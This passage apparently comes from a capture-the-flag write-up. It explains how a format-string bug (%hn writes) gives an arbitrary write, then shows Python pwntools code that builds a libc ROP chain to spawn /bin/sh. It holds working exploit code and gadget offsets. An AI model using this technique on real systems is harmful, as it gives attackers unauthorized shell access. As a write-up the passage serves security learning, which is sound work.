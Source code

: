 Here's what we want our ROP chain to get `system('/bin/sh', 0, 0)`:
1. Set rdi = address to `'/bin/sh'` string
2. Set rsi = 0
3. Call `system`

Note, we don't need to set rdx (3rd argument) to 0 because it's already 0 by the time we return from main. 

To overwrite an address value, we'll use this formatted payload `%{i}c%{j}$hn`. Let's break this down:
- `%{i}c` will print out `i` characters to stdout
- `%{j}$hn` will overwrite the number of already printed out characters (in this case, `i`) into the `{j}` argument. `%hn` specifies that it will write just 2 bytes.
	- Because `buf` is on the stack, we can control the pointer to write to (i.e. we can control the value of `j`th argument)
- Example: `%{0xdead}c%10$hn` writes `*(10th arg) = 0xdead`

Since we'll be overwriting multiple addresses for the ROP chain, I've created a helper function for one arbitrary write payload:

```python
def mywrite(addr, val):
    fst = (val >> (8*4)) & 0xffff
    snd = (val >> (4*4)) & 0xffff
    thd = val & 0xffff
    for i, w in enumerate([thd, snd, fst]):
        r.sendlineafter(b'n:', b'y')
        pay = f'%{w}c%10$hn'
        pay += 'a' * (16-len(pay))
        pay = pay.encode()
        pay += p64(addr+(i*2))
        r.sendlineafter(b'>', pay)
```

We're writing 2 bytes at a time since it's generally infeasible to print out something like `0xdeadbeef` amount of characters. Notice, we're padding to length 16 before appending the pointer we want to write to. The position of this pointer is what `printf` interprets as the 10th argument, which is why we've set `%10$hn`. To find this exact offset, you can verify using `%{j}$llx` to see if the pointer is in fact in that correct position.

Now that we've setup our arbitrary write, let's make our ROP chain. ROP gadgets were retrieved using `ROPgadget`.

```python
# ROP 1: pop rdi <- /bin/sh
pop_rdi = libc.address + 0x277e5
mywrite(ret_addr, pop_rdi)

binsh = libc.address + 0x196031
mywrite(ret_addr+8, binsh)

# ROP 2: pop rsi <- 0
pop_rsi = libc.address + 0x28f99
mywrite(ret_addr+(8*2), pop_rsi)

# Write 0 to the address. Just remove the payload %c so that it prints no characters
curr = ret_addr+(8*3)
r.sendlineafter(b'n:', b'y')
pay = f'%10$lln'
pay += 'a' * (16-len(pay))
pay = pay.encode()
pay += p64(curr)
r.sendlineafter(b'>', pay)

# ROP 3: ret for 16 byte aligned
ret = libc.address + 0x26e99
mywrite(ret_addr+(8*4), ret)
```